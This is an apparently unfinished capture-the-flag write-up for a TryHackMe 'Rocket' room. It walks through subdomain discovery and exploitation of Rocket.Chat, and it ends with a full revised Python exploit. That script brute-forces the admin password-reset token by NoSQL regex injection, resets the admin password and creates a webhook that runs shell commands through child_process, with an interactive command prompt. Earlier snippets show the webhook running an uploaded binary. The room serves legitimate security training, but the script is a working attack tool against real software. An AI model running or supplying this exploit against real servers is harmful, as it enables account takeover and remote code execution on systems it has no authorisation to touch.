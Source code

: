 # WIP: Rocket 

*Get ready for blast off!*

This room was a *quest*, many steps each a bit of effort. 

Scans revealed 22 and 80, on 80 you were redirected to 'rocket.thm', which a host entry needed to be created for.

There was just a brochureware site at that address, so with ffuf and scanning for subdomains (via `-H "Host: FUZZ.rocket.thm"`) the subdomain chat was found.

On chat.rocket.thm was, obviously, an instance of the Rocket Chat chat system. There is a few CVEs for this - the one I tried was https://www.exploit-db.com/exploits/49960, an exploit that can, with the email of an existing user and a target admin email account, reset passwords for these accounts via nosql injection to recover reset tokens, and then use the admin account to gain RCE via webhooks (the rocket chat webhook feature allows nodejs scripts).

The exploit by itself didn't work properly however - it could successfully reset passwords (changing them to `P@$$w0rd!1234`) but would fail when attempting to run the RCE. Examining the script, there were a few issues:

- first, resetting a password takes ages and it does this *twice*, once with the low priv user. This can be skipped by registering a user on the site then baking that user's password into the exploit and skipping the reset step. Though this might be unnecessary as its only purpose seems to be to get a OTP token.
- as just alluded to, the script assumes the site and the admin is protected by MFA. This is not the case for this room. Accordingly all the secret and code stuff in the script can be removed, but importantly, within the RCE function, the payload sent to the auth endpoint should be changed from:

  ```
  	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"totp\\":{\\"login\\":{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}},\\"code\\":\\"'+code+'\\"}}]}"}'
  ```
  
  to
  
  ```
    payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
  ```
- third, the rce execution doesn't work because it uses the wrong format for the nodejs script, compared to what rocketchat expects. specifically it tries to create an integration (webhook) with the following script:

  ```
  const require = console.log.constructor('return process.mainModule.require')();
  const { exec } = require('child_process');
  exec('+cmd+');
  ```
  
  this however is invalid. at this point I abandoned the exploit and using the reset admin credentials, modded the integration directly to follow this format:
  
  ```
  class Script
  {
    process_incoming_request() {
      const require = console.log.constructor('return process.mainModule.require')();
      const { execSync } = require('child_process');
      res = execSync('chmod +x /tmp/CR86Ge29yShsPuLFp && /tmp/CR86Ge29yShsPuLFp');
      return { content: { text: res.toString() } }
    }
  }
  ```
  
Webhooks can be invoked by curl, and the full curl command is helpfully provided on the integrations page. Notably, in the above setup the output of the command is placed in the general chat channel, which isn't very stealthy. Alternatively using `return { error: { success: false, message: res.toString() } }` would output the error on the command line after curl. Also, bad failures of the script can be diagnosed in the logs (though the log will be full of errors from the token brute forcing, be warned).

With RCE, the box was enumerated slowly. Its a tied down docker container, with none of the common tools. To upload I changed rocket chats settings to use the file system and /tmp folder, and then uploaded files into chat. They would be placed in /tmp with random file names, but were otherwise fine.

## Revised RocketChat Exploit

This is a modification of the exploit-db script. It should just require an admin email address (admin@rocket.thm) and a target (http://chat.rocket.thm)

```
#!/usr/bin/python

import requests
import string
import time
import hashlib
import json
import argparse

parser = argparse.ArgumentParser(description='RocketChat 3.12.1 RCE')
parser.add_argument('-a', help='Administrator email', required=True)
parser.add_argument('-t', help='URL (Eg: http://rocketchat.local)', required=True)
args = parser.parse_args()


adminmail = args.a
target = args.t

def forgotpassword(email,url):
	payload='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"sendForgotPasswordEmail\\",\\"params\\":[\\"'+email+'\\"]}"}'
	headers={'content-type': 'application/json'}
	r = requests.post(url+"/api/v1/method.callAnon/sendForgotPasswordEmail", data = payload, headers = headers, verify = False, allow_redirects = False)
	print("[+] Password Reset Email Sent")

def resettoken(url):
	u = url+"/api/v1/method.callAnon/getPasswordPolicy"
	headers={'content-type': 'application/json'}
	token = ""

	num = list(range(0,10))
	string_ints = [str(int) for int in num]
	characters = list(string.ascii_uppercase + string.ascii_lowercase) + list('-')+list('_') + string_ints

	while len(token)!= 43:
		for c in characters:
			payload='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"getPasswordPolicy\\",\\"params\\":[{\\"token\\":{\\"$regex\\":\\"^%s\\"}}]}"}' % (token + c)
			r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
			time.sleep(0.5)
			if 'Meteor.Error' not in r.text:
				token += c
				print(f"Got: {token}")

	print(f"[+] Got token : {token}")
	return token

def changingpassword(url,token):
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"P@$$w0rd!1234\\"]}"}'
	headers={'content-type': 'application/json'}
	r = requests.post(url+"/api/v1/method.callAnon/resetPassword", data = payload, headers = headers, verify = False, allow_redirects = False)
	if "error" in r.text:
		exit("[-] Wrong token")
	print("[+] Admin Password was changed !")

def rce(url,cmd):
	# Authenticating
	sha256pass = hashlib.sha256(b'P@$$w0rd!1234').hexdigest()
	headers={'content-type': 'application/json'}
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
	r = requests.post(url + "/api/v1/method.callAnon/login",data=payload,headers=headers,verify=False,allow_redirects=False)
	if "error" in r.text:
		exit("[-] Couldn't authenticate")
	data = json.loads(r.text)
	data =(data['message'])
	userid = data[32:49]
	token = data[60:103]
	print("[+] Succesfully authenticated as administrator")

	# Creating Integration
	payload = '{"enabled":true,"channel":"#general","username":"admin","name":"rce","alias":"","avatarUrl":"","emoji":"","scriptEnabled":true,"script":"class Script { process_incoming_request() { const require = console.log.constructor(\'return process.mainModule.require\')(); const { execSync } = require(\'child_process\'); res = execSync(\''+cmd+'\'); return { error: { sucess: true, message: res.toString() } } } }","type":"webhook-incoming"}'
	cookies = {'rc_uid': userid,'rc_token': token}
        headers = {'X-User-Id': userid,'X-Auth-Token': token}
        r = requests.post(url+'/api/v1/integrations.create',cookies=cookies,headers=headers,data=payload)
        data = r.text
        data = data.split(',')
        token = data[14]
        token = token[9:57]
        _id = data[20]
        _id = _id[7:24]

	# Triggering RCE
	u = url + '/hooks/' + _id + '/' +token
	r = requests.get(u)
	res = json.loads(r.text)
        print(res["message"])

############################################################

## Sending Reset mail
print(f"[+] Resetting {adminmail} password")
forgotpassword(adminmail,target)

## Getting reset token
token = resettoken(target)

## Resetting Password
changingpassword(target,token)

## Authenticating and triggering rce

while True:
	cmd = input("CMD:> ")
	rce(target,cmd)
```
